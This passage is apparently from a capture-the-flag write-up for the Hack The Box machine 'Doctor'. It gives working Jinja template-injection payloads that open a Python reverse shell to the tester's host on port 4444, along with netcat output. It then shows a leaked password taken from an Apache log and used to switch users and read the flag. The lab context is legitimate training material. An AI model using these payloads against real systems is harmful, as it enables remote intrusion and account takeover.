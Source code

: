 We can use this injection to [execute command on the system](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection).
After a few test we know that python is on the box and can run a few commands.
The payload below runs `id`.

`{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.121\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/id\"]);'").read().zfill(417)}}{%endif%}{% endfor %}`

We (obviously) run a netcat listener to catch the command's output.

    :::text
    kali@kali:~/pown/htb_doctor$ nc -l -p 4444
    uid=1001(web) gid=1001(web) groups=1001(web),4(adm)

We then go for a reverse shell with the following payload be careful with the
quotes and escaped quotes).

`{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.121\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); import pty; pty.spawn(\"/bin/bash\");'").read().zfill(417)}}{%endif%}{% endfor %}`

That allow us to get a reverse shell on the box.

## Enumeration

After *a lot* of enumeration both
[manually](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
and using tools as
[linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)
we found out that there is `backup` file in `/var/log/apache2` containing a call
to the password reset function but the user put its password instead of its
email.

    :::text
    web@doctor:/var/log/apache2$ grep password backup
    grep password backup
    10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"

That password allow us to connect as `shaun` using the switch user `su` command
and get the user flag.

    :::text
    web@doctor:/var/log/apache2$ su shaun
    su shaun
    Password: Guitar123

    shaun@doctor:/var/log/apache2$ cat /home/shaun/user.txt
    cat /home/shaun/user.txt
    2b14d9d9ff996cfb2e4fb96e6db82631
